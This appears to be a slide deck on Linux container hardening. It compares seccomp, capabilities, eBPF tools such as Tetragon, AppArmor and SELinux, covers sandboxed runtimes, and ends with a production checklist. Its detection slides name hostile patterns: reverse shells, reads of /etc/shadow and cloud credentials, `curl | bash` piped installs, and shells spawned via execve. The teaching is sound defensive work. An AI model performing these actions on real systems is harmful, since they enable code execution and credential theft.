

</div>

<div class="col">


**No Filtering** - no seccomp filtering is applied. The process can make any system call.

**Strict Mode** - allows only `read()`, `write()`, `_exit()`, and `sigreturn()`

**Filter Mode** (most common) - define fine-grained rules (via BPF -- Berkeley Packet Filter). Allow, deny, or trap specific syscalls.

**Block All** - all system calls are blocked. Most restrictive mode.

</div>
</div>

---

<!-- _class: small -->

# Capabilities vs Seccomp

Both are kernel-level security features that restrict what a process can do, but they operate at **different layers**.

**Capabilities** manage **privileges** (permissions) — "Can I do X?"
**Seccomp** manages the **interface** (syscalls) — "Can I use syscall Y?"

| Feature | Linux Capabilities | Seccomp |
|---|---|---|
| **Primary goal** | De-privileging root | Reducing kernel attack surface |
| **Logic** | "Does this process have permission to do X?" | "Is this process allowed to call syscall Y?" |
| **Configuration** | Adding/dropping from a list | JSON profiles defining allowed/blocked syscalls |
| **Example** | `CAP_NET_BIND_SERVICE` allows binding to port 80 | Blocking `execve` prevents running new programs |
| **Granularity** | ~40 capability groups | ~300+ individual syscalls |
| **Docker usage** | `--cap-drop=ALL --cap-add=...` | `--security-opt seccomp=profile.json` |

> They are **complementary**: a process might have `CAP_NET_RAW` (capability to use raw sockets), but seccomp can still block the `socket()` syscall. Use both for defense in depth.

---

<!-- _class: small -->

# eBPF for Runtime Security

**eBPF** (Extended Berkeley Packet Filter) allows running sandboxed programs in the Linux kernel without modifying kernel code -- the modern approach to runtime security monitoring.

- **Not just another syscall filter like Seccomp.** eBPF attaches to **kprobes**, **tracepoints**, and **LSM hooks** deep inside the kernel -- it can observe file access, network connections, process execution, and privilege escalation at points that Seccomp and LSMs cannot reach
- Operates **earlier or deeper** than standard LSM hooks (AppArmor/SELinux) depending on the probe type
- No kernel modules or agents required -- runs safely in-kernel with a built-in verifier

**Tools:**
- **Tetragon** -- kernel-level security observability and enforcement (by Cilium/Isovalent, CNCF project)
- **Falco** -- runtime threat detection using eBPF probes (CNCF project)
- **Tracee** -- runtime security and forensics using eBPF (by Aqua Security)

```bash
# Example: Tetragon detects shell spawned in container
sudo docker exec tetragon tetra getevents -o compact
🚀 process default/alpine /bin/sh
```

> eBPF is a **programmable engine** inside the kernel, not a static filter. It can monitor almost any internal kernel event.

---

<!-- _class: small -->

# Seccomp vs eBPF Security

While Seccomp is a static filter at the syscall entry point, eBPF is a programmable engine that attaches to **kprobes, tracepoints, and LSM hooks** throughout the kernel -- they operate at fundamentally different layers:

| Feature | Seccomp | eBPF Security |
|---|---|---|
| **Primary role** | A static **gatekeeper** that blocks syscalls | A dynamic **observer** that monitors and acts on syscalls |
| **Action** | Hard deny — kills the process if it uses a forbidden syscall | Context-aware — can log, alert, or block based on syscall **arguments** |
| **Awareness** | Binary: "Is this syscall allowed? Yes/No" | Rich: "Who called it, with what args, from which container?" |
| **Configuration** | JSON profiles listing allowed/blocked syscalls | TracingPolicies with selectors, argument filters, namespace matching |
| **Overhead** | Near zero (in-kernel BPF filter) | Very low (in-kernel eBPF programs) |
| **Analogy** | A fixed metal gate | A smart security camera with automated response |

> **Use both together:** Seccomp blocks dangerous syscalls at the gate (e.g., `mount`, `kexec_load`). eBPF tools like Tetragon **monitor allowed syscalls** for suspicious patterns (e.g., a web server calling `execve("/bin/sh")`).

---

<!-- _class: medium -->

# Tetragon in Production

**How teams use eBPF security tools in real production systems:**

| Use Case | What it does |
|---|---|
| **Runtime threat detection** | Detect shells in containers, crypto miners, reverse shells, access to `/etc/shadow` or cloud credentials. Events feed into SIEMs (Splunk, Elastic). |
| **Runtime enforcement** | Kill malicious processes at the kernel level (`Sigkill` action) before they complete -- e.g., block kernel module loading from containers. |
| **Network observability** | L3/L4/L7 flow visibility across pods (via Hubble). Detect unexpected egress, audit service-to-service communication. |
| **Compliance & audit** | Complete record of every process, file access, and network connection. Satisfies SOC 2, PCI-DSS, HIPAA audit requirements. |
| **Incident response** | Full process ancestry (parent → child chains with args) shows exactly how an attacker moved through the system. |
| **Supply chain attack detection** | Detect behavioral drift -- e.g., a Node.js container suddenly running `curl \| bash`. |

**Typical deployment:** DaemonSet on every K8s node (Helm), TracingPolicies as CRDs, events exported to Elastic/Splunk/Grafana Loki.

---

<!-- _class: small -->

# Docker Bench for Security

An official Docker script that audits your host against the **CIS Docker Benchmark** -- dozens of best practice checks in one command:

```bash
docker run --rm --net host --pid host \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -v /etc:/etc:ro \
  -v /usr/lib/systemd:/usr/lib/systemd:ro \
  -v /etc/docker:/etc/docker:ro \
  docker/docker-bench-security
```

**Checks include:**

| Section | What it audits |
|---|---|
| Host Configuration | Kernel params, audit rules, Docker partition |
| Docker Daemon | TLS, logging, ulimits, userland proxy |
| Container Runtime | Privileged mode, capabilities, read-only fs, PID limits |
| Container Images | Root user, HEALTHCHECK, content trust |

Output: `[PASS]` `[WARN]` `[INFO]` per check. Run regularly in CI/CD.

---

# AppArmor

**AppArmor** (Application Armor) is a Linux security module (LSM) that lets you define and enforce security policies for individual programs.

Think of it as a "per-application firewall" -- it controls what a program can access:

- Files and directories
- Network access
- Capabilities (like setuid, chown, etc.)
- Mount points
- Ptrace/debug permissions

---

# SELinux

**SELinux** (Security-Enhanced Linux) is a mandatory access control (MAC) system built into the Linux kernel. It enforces fine-grained security policies on processes, files, users, and more -- going far beyond traditional Unix permissions.

Think of it as the bodyguard of the Linux kernel:

It checks every action before it happens and asks:
*"Is this allowed under the security policy?"*

---

# SELinux Modes

- **Enforcing** - Policies are applied and enforced (secure mode)
- **Permissive** - Violations are logged but not blocked (great for testing)
- **Disabled** - SELinux is turned off

---

# All Together



---

<!-- _class: small -->

# Seccomp vs AppArmor vs SELinux

| Feature | Seccomp | AppArmor | SELinux |
|---|---|---|---|
| **Purpose** | Restricts system calls | Restricts file access & capabilities | Mandatory Access Control (MAC) |
| **Granularity** | Fine-grained (syscall level) | Medium (paths & exec profiles) | Very fine-grained (label-based) |
| **Default Behavior** | Allow all, unless filtered | Deny unless permitted | Deny unless policy allows |
| **Policy Format** | JSON or BPF filters | Plaintext profiles | Policy rules with types & labels |
| **Ease of Use** | Moderate | Easier (Ubuntu default) | Complex, steep learning curve |
| **Container Use** | Common in Docker, K8s | Used in Ubuntu, Docker/K8s | Default in RedHat, Fedora, OpenShift |
| **Portability** | Very portable | Less portable | Low portability |
| **Enforcement** | Kill or errno on denied syscall | Enforce or complain mode | Enforcing, permissive, or disabled |
| **Logging** | Via audit subsystem | Via AppArmor logs (`/var/log/syslog`) | Via AVC messages in audit log |
| **Integration** | Docker, K8s, containerd | Docker, K8s, Snap, LXD | OpenShift, K8s, Podman, libvirt |

---

<!-- _class: small -->

# Seccomp vs AppArmor vs eBPF

**Execution order** -- each layer filters before the next:

```
Process  →  Seccomp  →  AppArmor/SELinux  →  eBPF  →  Kernel
           (syscall     (resource access      (observe +
            filter)      policy)               enforce)
```

| | **Seccomp** | **AppArmor** | **eBPF** |
|---|---|---|---|
| **What** | Blocks/allows **syscalls** | Controls **resource access** (files, net, caps) | Monitors & enforces **any kernel event** |
| **Layer** | Syscall entry (BPF filter) | LSM hooks | Kernel-wide (kprobes, tracepoints, LSM) |
| **Logic** | Allowlist / denylist of syscall numbers | Per-program path-based profiles | Programmable (C/Go → bytecode) |
| **Action** | Allow, kill, errno, trap | Allow, deny, audit | Log, alert, kill, override return |
| **Scope** | Per-process | Per-binary / per-container | Cluster-wide (via Tetragon/Cilium) |

> **Analogy**: Seccomp is the **gate** (blocks entire syscall types), AppArmor is the **bouncer** (checks if *this program* can access *this resource*), eBPF is the **security camera with a trigger** (watches everything, can act).

Docker applies **all three by default**: default seccomp profile + default AppArmor profile + eBPF-based monitoring available via Tetragon.

---

<!-- _class: title -->

# Container Sandboxing Approaches

---

<!-- _class: medium -->

# Host Kernel vs Guest Kernel

**Soft multi-tenancy** (shared host kernel):
- `runc`, `crun` -- use namespaces and cgroups for isolation but **share the host kernel**
- `gVisor` -- intercepts syscalls in user space but still runs on the host kernel
- If the kernel is compromised, all containers are affected

**Hard multi-tenancy** (guest kernel):
- `Kata Containers` -- each container runs inside a **lightweight VM with its own kernel**
- `Firecracker` -- microVMs with a **dedicated guest kernel** per workload
- A kernel exploit inside the container does **not** affect the host

> Choose soft multi-tenancy for performance, hard multi-tenancy for stronger isolation (e.g., multi-tenant clouds).

---

# User Namespaces

Map container users to non-privileged users on the host.

Prevents root in the container from being root on the host.

Docker: `--userns=host` or `--userns-remap`

> **Common misconception:** User namespaces do **not** make a container as secure as a VM. You still share the host kernel -- a single kernel zero-day can compromise all containers regardless of namespace isolation. User namespaces reduce the *blast radius* of a compromise, but the shared kernel remains a single point of failure.

---

# gVisor (User-space Kernel)

- Sandboxed container runtime developed by Google
- Intercepts syscalls and emulates them in user space
- Highly secure but with a performance trade-off

https://gvisor.dev/docs/user_guide/install/

---

# Kata Containers

- Lightweight VMs for containers
- Uses KVM (Kernel-based Virtual Machine) to provide VM-level isolation
- Ideal for multi-tenant environments

---

# Firecracker

- MicroVM-based runtime by AWS (used in Lambda)
- Low overhead, high isolation
- Not full-featured like Docker but great for serverless/container workloads

---

# Rootless Containers

- Run containers without root privileges
- Available in Docker, Podman, and containerd
- Reduces the risk of container escape

Rootless mode executes the Docker daemon and containers inside a user namespace. Both the daemon and the container are running without root privileges.

- https://docs.docker.com/engine/security/rootless/
- https://docs.docker.com/engine/security/rootless/#known-limitations

---

<!-- _class: small -->

# Production Readiness Checklist

| Security Layer | Action Item |
|---|---|
| **Build** | Use distroless or alpine base images |
| **Build** | Pin image versions by digest |
| **Build** | Generate SBOM for every image |
| **Build** | Scan images for CVEs (Trivy, Grype) |
| **Ship** | Sign images with Cosign |
| **Ship** | Verify provenance attestations (SLSA) |
| **Ship** | Use private registries with access controls |
| **Run** | Run as `USER 1000`, never root |
| **Run** | Use `--read-only` filesystem |
| **Run** | Drop ALL capabilities, add only what's needed |
| **Run** | Apply Seccomp and AppArmor/SELinux profiles |
| **Run** | Use network policies to restrict traffic |
| **Run** | Store secrets in external secret stores (Vault) |
| **Monitor** | Enable eBPF-based runtime detection (Tetragon, Falco) |
